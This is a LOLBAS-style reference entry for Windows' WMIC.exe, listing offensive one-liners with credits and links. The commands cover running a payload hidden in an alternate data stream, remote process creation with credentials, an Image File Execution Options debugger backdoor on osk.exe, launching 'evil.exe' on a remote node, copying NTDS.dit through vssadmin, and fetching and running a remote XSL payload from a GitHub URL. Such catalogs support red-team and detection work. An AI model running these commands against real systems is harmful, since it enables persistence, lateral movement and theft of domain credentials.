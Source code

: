 ## WMIC.exe

* Functions: Reconnaissance, Execute, Read ADS

```
wmic process call create calc    

wmic process call create '"c:\ads\file.txt:program.exe"'
   
wmic useraccount get /ALL    
    
wmic process get caption,executablepath,commandline     
    
wmic qfe get description,installedOn /format:csv    
    
wmic /node:"192.168.0.1" service where (caption like "%sql server (%")    
    
get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"    
    
wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"    
    
wmic /NODE: "192.168.0.1" process call create "evil.exe"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"    
     
wmic process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"    
     
wmic os get /format:"MYXSLFILE.xsl"    
     
wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"   
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Wmic_calc.xsl](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl)   

Resources:
* https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
* https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
* https://twitter.com/subTee/status/986234811944648707

Full path:
```
c:\windows\system32\wbem\wmic.exe
c:\windows\sysWOW64\wbem\wmic.exe
```

Notes:



 
